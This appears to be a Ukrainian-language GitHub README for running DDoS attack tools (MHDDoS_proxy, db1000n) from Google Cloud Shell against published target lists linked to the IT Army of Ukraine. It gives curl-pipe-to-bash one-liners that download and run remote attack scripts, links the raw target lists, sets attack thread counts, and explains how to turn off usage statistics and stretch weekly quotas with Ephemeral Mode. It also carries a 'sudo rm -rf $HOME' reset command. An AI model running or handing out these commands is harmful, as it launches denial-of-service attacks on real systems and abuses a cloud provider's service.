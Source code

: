 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**Layer4:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**All list (*--itarmy*):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
~~**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**~~    
`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash`    
.    
:white_check_mark: *Автоперезапуск скриптів, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, напр. `-s -- 2000`*    
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• Дозволяється запускати до 4 терміналів на 1 акаунт але **рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
